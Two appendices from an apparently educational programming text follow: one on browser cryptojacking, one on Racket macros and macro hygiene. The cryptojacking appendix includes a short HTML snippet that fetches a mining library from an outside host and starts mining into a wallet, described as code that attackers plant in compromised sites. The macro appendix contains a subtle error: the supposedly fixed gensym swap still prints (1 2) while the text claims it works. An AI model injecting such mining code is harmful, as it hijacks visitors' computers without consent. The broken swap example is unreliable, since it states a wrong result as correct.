

# Appendices

## Appendix A: Cryptojacking

Modern Internet browsers are very powerful. They contain a built-in programming language called JavaScript that enables code execution on the viewer's computer. This is what enables websites to be dynamic, or to do animations, etc.

As a consequence, when you visit a website on the Internet, this website can tell your browser's JavaScript to start mining.

I> ### Definition 1
I>
I> Cryptojacking is the unauthorized use of someone else's computer to mine blocks.

Recall that miners get a reward (coins) for mining. In this case, your computer's resources are used for mining. This serves as a motivation for cryptojacking.

Assuming there's `bitcoin.min.js` - think of it as a package for JavaScript - the code could be as simple as:

```html
<script src="https://bitcoin.com/lib/bitcoin.min.js">
</script>
 
<script>
var miner = new Bitcoin( 'public wallet' );
miner.start();
</script>
```

Attackers would then insert this code into compromised websites.



For example, in the diagram above, an attacker has already modified a website to include the compromised code that does cryptojacking. When someone visits the compromised website they will run the cryptojacking code in the background in parallel while the user is browsing the website.

## Appendix B: Macros

So far we've been writing our definitions and interacted with them, but what if we had a way to write a piece of code that, when executed, would write code itself? Macros are a way to do exactly that.

I> ### Definition 2
I>
I> A macro is a syntactic extension to a programming language. This means that we can write (or introduce our own) keywords in the programming language itself.

There is another special syntax in Lisp named `define-macro` which allows us to create a macro. It accepts the name of a macro, parameters (which are optional), and as a result, it should return a quoted list of Lisp commands.

When we run our definitions (or compile them), Racket will replace all occurrences of the macro call with the actual code that we made it produce.

Macros are all about affecting how the evaluation model works. Racket has an eager evaluation model, which means that all expressions will be evaluated at a given time on a function call. For macros in contrast, since Racket will replace the code before evaluating it, expressions will be evaluated only when needed.

So, as an example, if we have the following macro `(define-macro (add-one x) (list '+ x 1))`, wherever we write `(add-one x)`, it will be replaced with the expression (+ x 1).

So, what is the difference between using a macro and a function? To answer, we will consider these definitions:

```racket
(require compatibility/defmacro)

(define-macro (our-if-macro a b c)
  (list 'cond (list a b) (list 'else c)))

(define (our-if-function a b c)
  (cond (a b) (else c)))
```

With a few evaluations:

```racket
> (our-if-macro (eq? '() '()) #t #f)
#t
> (our-if-function (eq? '() '()) #t #f)
#t
> (our-if-macro (eq? '() '()) (display "True") (display "False"))
True
> (our-if-function (eq? '() '()) (display "True") (display "False"))
TrueFalse
```

We can notice a couple of things from the code above:

1. We required a library that contains the `define-macro` syntax
1. We've implemented our own `if` both as a macro and as a function
1. In the interactions area, we've used a function called `display`, which prints stuff to the output
1. We see that the macro and the function produce two different outputs

The macro and the function behave differently, as expected. However, in the case of `if`, it makes sense of implementing it as a macro rather than a function. It does not make sense to evaluate the `else` case if we are sure that the first case will match.

The way we've written our macro makes things much more explicit in terms of execution and substitution. We can also write it as follows, which is a bit more implicit:

```racket
(define-macro (our-if-macro a b c)
  `(cond (,a ,b) (else ,c)))
```

### Hygienic macros

The way we've written our macros earlier is not a good practice in Racket. Consider the following example:

```racket
(define-macro (swap a b)
  `(let ((tmp ,a))
     (set! ,a ,b)
     (set! ,b tmp)))
```

This looks like a perfectly safe macro. Indeed:

```racket
> (define x 1)
> (define y 2)
> (displayln (list x y))
(1 2)
> (swap x y)
> (displayln (list x y))
(2 1)
```

However, we can break it by using the following code:

```racket
> (define x 1)
> (define tmp 2)
> (displayln (list x tmp))
(1 2)
> (swap x tmp)
> (displayln (list x tmp))
(1 2)
```

To see what happened, we can expand the macro by hand. The macro translates to:

```racket
> `(let ((tmp ,x))
    (set! ,x ,tmp)
    (set! ,tmp tmp))
'(let ((tmp 2)) (set! 2 2) (set! 2 tmp))
```

As we can see, it is hard to control the accidental capture of local identifiers. We can get around the problem using `gensym` which returns a unique symbol every time it's called:

```racket
(define-macro (swap a b)
  (let ((tmp (gensym)))
    `(let ((,tmp ,a))
       (set! ,a ,b)
       (set! ,b ,tmp))))
```

Now our macro works as intended:

```racket
> (define x 1)
> (define tmp 2)
> (displayln (list x tmp))
(1 2)
> (swap x tmp)
> (displayln (list x tmp))
(1 2)
```

However, instead of relying on `gensym`, the preferred way in Racket is to use `define-syntax-rules`:

```racket
(define-syntax-rule (swap a b)
  (let ((tmp a))
    (set! a b)
    (set! b tmp)))
```
